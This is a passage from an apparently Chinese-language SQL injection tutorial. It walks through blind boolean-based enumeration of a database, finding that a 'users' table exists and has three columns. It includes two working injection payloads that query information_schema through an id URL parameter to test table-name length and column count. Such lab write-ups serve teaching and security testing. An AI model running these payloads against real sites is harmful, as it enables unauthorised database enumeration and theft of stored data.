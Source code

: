 ```php
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 3,1))=5 --+
```

知道每个表的长度后，我们再使用和库名一样的方式猜解表名  
![](assets/1707473863-56e03fea59bd42a64b3c307929faee94.png)  
例如第一个表名称为 emails  
![](assets/1707473863-6ff9dbcbd4bd82a93c483adaf534c416.png)  
知道表（第四个表，长度为五，是 users）的信息后，我们再来猜列的个数，这里可以看到有三个列

```php
?id=1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name = 'users')=3 --+
```
